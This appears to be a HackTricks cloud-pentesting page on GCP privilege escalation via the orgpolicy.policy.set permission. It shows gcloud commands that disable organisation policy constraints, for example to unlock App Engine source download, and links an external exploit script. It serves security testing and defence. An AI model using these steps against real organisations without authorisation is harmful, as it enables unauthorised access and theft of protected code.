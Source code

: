# GCP - Orgpolicy Privesc

{{#include ../../../banners/hacktricks-training.md}}

## orgpolicy

### `orgpolicy.policy.set`

An attacker leveraging **orgpolicy.policy.set** can manipulate organizational policies, which will allow him to remove certain restrictions impeding specific operations. For instance, the constraint **appengine.disableCodeDownload** usually blocks downloading of App Engine source code. However, by using **orgpolicy.policy.set**, an attacker can deactivate this constraint, thereby gaining access to download the source code, despite it initially being protected.

```bash
# Get info
gcloud resource-manager org-policies describe <org-policy> [--folder <id> | --organization <id> | --project <id>]

# Disable
gcloud resource-manager org-policies disable-enforce <org-policy> [--folder <id> | --organization <id> | --project <id>]
```

A python script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/orgpolicy.policy.set.py).

## References

- [https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/](https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/)

{{#include ../../../banners/hacktricks-training.md}}





